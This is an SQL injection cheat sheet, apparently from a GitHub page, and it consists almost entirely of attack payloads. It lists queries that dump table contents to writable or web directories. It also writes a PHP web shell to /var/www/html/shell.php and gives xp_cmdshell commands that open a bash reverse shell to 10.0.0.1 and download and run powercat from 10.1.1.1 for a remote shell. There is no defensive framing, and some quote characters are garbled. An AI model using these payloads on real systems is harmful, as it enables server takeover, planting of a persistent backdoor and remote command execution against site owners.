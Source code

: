 ### **Dump/Write to file**

```text
...SELECT * FROM mytable INTO DUMPFILE ‘<writeable-path-or-web-directorygt;’; —
```

```text
...SELECT * FROM mytable INTO OUTFILE ‘<writeable-path-or-web-directorygt;’; —
```

### **Shell Through Injection**

```text
SELECT '<?php exec($_GET[''cmd'']); ?>' FROM mytable INTO dumpfile ‘/var/www/html/shell.php’
```

```text
EXEC xp_cmdshell 'bash -i >& /dev/tcp/10.0.0.1/8080 0>&1'
```

```text
EXEC xp_cmdshell 'powershell -NoP -NonI -Exec Bypass IEX (New-Object Net.WebClient).DownloadString("http://10.1.1.1:8080/powercat.ps1");powercat -c 10.1.1.1 -p 443 -e cmd' 
```


